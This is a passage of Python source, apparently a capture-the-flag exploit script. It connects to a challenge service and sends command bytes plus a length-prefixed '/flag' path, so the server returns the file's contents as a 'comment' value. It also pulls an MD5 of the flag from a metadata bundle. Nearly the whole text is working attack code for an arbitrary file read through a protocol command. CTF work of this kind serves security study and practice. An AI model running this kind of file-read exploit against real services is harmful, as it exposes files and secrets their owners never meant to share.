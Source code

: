 ```
    send_cmd(io, b"\x31")
    send_length_prefixed_blob(io, b"/flag")
    io.recv(timeout=0.5)
    # 0x30: get comment value; server returns a tagged blob containing file contents
    send_cmd(io, b"\x30")
    chunk = read_chunk(io, timeout=2.0)
    if not chunk:
        return b""
    _tag, payload = chunk
    return payload


def main():
    host = os.environ.get("HOST", "127.0.0.1")
    port = int(os.environ.get("PORT", "4265"))
    io = remote(host, port)
    try:
        # First path: MD5-hex via PNG metadata bundle
        kv, raw = exploit_fetch_metadata(io)
        if kv:
            print("Parsed fields:")
            for k in ("Author", "Comment", "Software"):
                if k in kv:
                    print(f"- {k}: {kv[k]}")
            if "Author" in kv:
                print(f"\nAuthor (MD5 of flag): {kv['Author']}")
        else:
            print(f"No parsable KV bundle. Raw chunk ({len(raw)} bytes)")

        # Second path: plaintext flag via comment-as-path trick
        try:
            plain = exploit_fetch_flag_via_comment(io)
            if plain:
                print(f"\nPlaintext flag via comment: {plain.decode('utf-8', errors='ignore')}")
            else:
                print("\nFailed to fetch plaintext flag via comment.")
        except Exception as e:
            print(f"\nError fetching plaintext flag via comment: {e}")
    finally:
        try:
            send_cmd(io, b"\x11")  # close session politely
        except Exception:
            pass
        io.close()


if __name__ == "__main__":
    main()

```
